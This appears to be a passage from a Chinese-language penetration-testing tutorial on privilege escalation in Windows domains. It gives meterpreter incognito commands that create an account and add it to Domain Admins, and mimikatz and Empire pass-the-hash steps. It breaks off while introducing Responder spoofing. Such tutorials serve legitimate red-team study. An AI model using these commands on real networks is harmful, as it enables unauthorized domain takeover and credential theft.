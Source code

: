 同样，在 `meterpreter shell` 中可以使用 `incognito` 来模拟域管理员，然后通过迭代系统中所有可用的身份验证令牌来添加域管理员。

在活动的 `meterpreter shell` 中执行如下命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>add_user test test!@#123 -h 1.1.1.2<br>``` |

执行如下命令，将该账户加到域管理员组中。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>add_user "Domain Admins" test -h 1.1.1.2<br>``` |

### [](#empire-%E4%B8%8B%E7%9A%84%E4%BB%A4%E7%89%8C%E7%AA%83%E5%8F%96%E5%88%86%E6%9E%90)Empire 下的令牌窃取分析

运行 `mimikatz`，输入 `creds`

执行:

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>pth CredID<br>``` |

## [](#%E6%97%A0%E5%87%AD%E8%AF%81%E4%B8%8B%E7%9A%84%E6%9D%83%E9%99%90%E8%8E%B7%E5%8F%96)无凭证下的权限获取

### [](#llmnr-%E5%92%8C-netbios-%E6%AC%BA%E9%AA%97%E6%94%BB%E5%87%BB)LLMNR 和 NetBIOS 欺骗攻击

#### [](#responder-%E5%B7%A5%E5%85%B7)Responder 工具

开启监听模式
